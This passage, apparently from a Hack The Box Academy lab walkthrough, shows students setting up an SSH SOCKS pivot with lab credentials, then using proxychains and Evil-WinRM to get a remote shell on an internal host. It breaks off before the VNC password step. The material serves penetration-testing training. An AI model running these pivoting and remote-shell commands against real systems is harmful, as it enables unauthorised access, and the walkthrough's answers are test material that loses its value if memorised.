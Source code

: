 Answer: `SSH_KEY_Authentication`

## Remote Management Tools

### Question 1

#### "Decrypt the VNC credentials from SRV02. What's the VNC password?"

After spawning the target, students will use SSH to establish a dynamic port-forwarding using the credentials `helen:RedRiot88`:

Code: shell

```shell
ssh -D 9050 helen@STMIP
```

```shell-session
┌─[eu-academy-5]─[10.10.14.133]─[htb-ac-8414@htb-ise2nzsvgt]─[~]
└──╼ [★]$ ssh helen@10.129.72.91 -D 9050

helen@10.129.72.91's password:
Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

inlanefreight\helen@SRV01 C:\Users\helen>
```

Subsequently, students will open a new terminal tab and will authenticate to `SRV02` (`172.20.0.52` through `Evil-WinRM` using Helen's credentials:

Code: shell

```shell
proxychains evil-winrm -i 172.20.0.52 -u helen -p RedRiot88
```

```shell-session
┌─[eu-academy-5]─[10.10.14.133]─[htb-ac-8414@htb-ise2nzsvgt]─[~]
└──╼ [★]$ proxychains evil-winrm -i 172.20.0.52 -u helen -p RedRiot88

[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.20.0.52:5985  ...  OK
*Evil-WinRM* PS C:\Users\helen\Documents>
```
